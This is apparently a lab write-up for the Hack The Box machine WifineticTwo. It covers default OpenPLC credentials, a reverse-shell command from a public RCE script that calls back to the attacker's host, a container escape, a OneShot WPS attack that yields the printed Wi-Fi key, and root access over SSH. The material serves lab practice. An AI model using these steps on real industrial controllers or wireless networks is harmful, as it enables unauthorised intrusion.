HTB: WifineticTwo
We only have ssh and port 8080 open
Port 8080 is a web page

Default creds work
openplc:openplc

There is authenticated RCE for PLC 3 but it doesnt work on this machine.

The script didnt work because the filename in the script was incorrect.

Changing this allows us to get a shell.
python3 rce.py -u http://10.10.11.7:8080 -l openplc -p openplc -i 10.10.14.32 -r 9999

We are root which is interesting but the root directory only has a user.txt file.
We are in a container

We find another IP address from linpeas which we can ping.
10.0.3.2
do to the name of this machine it makes sense that wifi is involved. We find a PLC router

After giving up I looked up a guide and oneshot is supposed to give me the PSK to allow me to connect to this wifi but it wouldnt work for me no matter which tool or how many resets I did. Machine is very broken. I reset the machine, tried oneshot.py tried the C version of oneshot
https://github.com/kimocoder/OneShot/blob/master/oneshot.py
What oneshot outputs for me

What oneshot should output

Wifi Password NoWWEDoKnowWhaTisReal123!
Following this guide we can setup the wifi connection
https://wiki.somlabs.com/index.php/Connecting_to_WiFi_network_using_systemd_and_wpa-supplicant
We first setup a wpa_supplicant-wlan0.conf config file.

We restart the service connecting us to the router

We set our IP and ssh into the machine and get the root flag
